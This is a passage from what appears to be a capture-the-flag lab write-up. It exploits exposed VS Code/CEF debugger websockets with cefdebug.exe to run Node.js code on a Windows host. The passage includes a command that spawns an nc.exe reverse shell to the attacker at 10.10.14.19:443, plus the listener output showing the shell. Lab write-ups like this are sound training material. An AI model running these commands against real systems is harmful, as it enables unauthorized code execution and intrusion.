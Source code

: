 Those sockets only last a few seconds, so I’ll have to act quickly to make use
of them. As the socket urls change in the examples I show, each time I ran
`cefdebug.exe` with no args to get the current sockets, and then the commands
shown.

To show I can run something, I’ll get the version:

    
    
    *Evil-WinRM* PS C:\programdata> .\cefdebug.exe --code "process.version" --url ws://127.0.0.1:14393/5a73a31b-903d-41e8-b18d-9fb422e89234
    [2020/04/01 03:24:14:1537] U: >>> process.version
    [2020/04/01 03:24:14:1557] U: <<< v10.11.0
    

I can also see who is running with `whoami`. I tried to pick a directory that
any user would be able to write to:

    
    
    *Evil-WinRM* PS C:\programdata> .\cefdebug --code "process.mainModule.require('child_process').exec('whoami > C:\windows\system32\spool\drivers\color\0xdf')" --url ws://127.0.0.1:64493/fd4b0ffa-a388-40da-b01a-62709102094b
    [2020/04/01 03:28:40:0773] U: >>> process.mainModule.require('child_process').exec('whoami > C:\\windows\system32\spool\drivers\color\0xdf')
    [2020/04/01 03:28:40:0930] U: <<< ChildProcess
    
    *Evil-WinRM* PS C:\programdata> type C:\windows\system32\spool\drivers\color\0xdf
    megacorp\cyork
    

### Shell

I’ll upload `nc.exe`, as I’m working through the 32-bit Visual Studio Code.
Now spawn it:

    
    
    *Evil-WinRM* PS C:\programdata> .\cefdebug --code "process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.14.19 443 -e cmd')" --url ws://127.0.0.1:60404/830991c3-0f17-4025-9b2c-a0ef1c8675f2
    [2020/04/01 03:39:52:7113] U: >>> process.mainModule.require('child_process').exec('C:\\programdata\\nc.exe 10.10.14.19 443 -e cmd')
    [2020/04/01 03:39:52:7153] U: <<< ChildProcess
    

And get a shell:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.179.
    Ncat: Connection from 10.10.10.179:50159.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\Program Files\Microsoft VS Code>whoami
    megacorp\cyork
    